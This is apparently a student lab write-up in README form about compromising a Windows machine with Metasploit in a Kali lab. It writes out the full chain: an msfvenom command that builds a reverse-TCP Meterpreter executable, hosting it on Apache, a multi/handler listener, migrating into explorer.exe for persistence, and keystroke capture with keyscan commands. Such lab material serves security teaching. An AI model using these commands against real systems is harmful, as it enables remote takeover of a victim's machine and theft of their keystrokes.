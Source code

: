 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/sakthipriyadhanusu/Compromising-windows-using-Metasploit/assets/119393194/bf54dee1-6e34-4aa1-a6f7-b7565b0770ae)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/sakthipriyadhanusu/Compromising-windows-using-Metasploit/assets/119393194/5b0a4ab1-fe3e-417d-84ee-3cda132b18d0)
copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/sakthipriyadhanusu/Compromising-windows-using-Metasploit/assets/119393194/faa49e54-bd9b-451e-90ed-402f60cb5b31)
Start apache server sudo systemctl apache2 start
![image](https://github.com/sakthipriyadhanusu/Compromising-windows-using-Metasploit/assets/119393194/34af7d5b-12ac-440c-9d08-d8a76a966a9d)
Check the status of apache2
![image](https://github.com/sakthipriyadhanusu/Compromising-windows-using-Metasploit/assets/119393194/cd6386a6-5f23-4bc4-b877-c7700518a6e7)
Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/sakthipriyadhanusu/Compromising-windows-using-Metasploit/assets/119393194/059fd56e-aa41-40c6-97e2-9a25977cd378)
![image](https://github.com/sakthipriyadhanusu/Compromising-windows-using-Metasploit/assets/119393194/0e4758b6-8b39-4934-a5ac-2e360078170d)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/sakthipriyadhanusu/Compromising-windows-using-Metasploit/assets/119393194/86bf84ad-4d97-46d9-9fa8-b5ad97a89299)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/sakthipriyadhanusu/Compromising-windows-using-Metasploit/assets/119393194/9e863604-6de9-4650-9d28-2ba904ab32e6)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/sakthipriyadhanusu/Compromising-windows-using-Metasploit/assets/119393194/f8805be5-b35b-4a2f-9197-5d82b9ba2b9f)
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/sakthipriyadhanusu/Compromising-windows-using-Metasploit/assets/119393194/211ade5b-c1f4-4154-80a7-05f4185748da)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
